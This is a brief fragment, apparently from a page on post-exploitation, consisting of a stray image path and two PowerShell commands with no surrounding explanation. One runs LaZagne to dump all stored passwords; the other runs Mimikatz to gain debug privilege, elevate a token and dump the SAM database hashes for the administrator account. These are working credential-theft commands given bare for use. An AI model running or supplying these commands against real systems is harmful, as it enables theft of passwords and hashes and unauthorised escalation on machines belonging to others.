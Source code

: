 ```powershell
.\lazagne.exe all
```

```powershell
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam /inject:administrator" exit
```


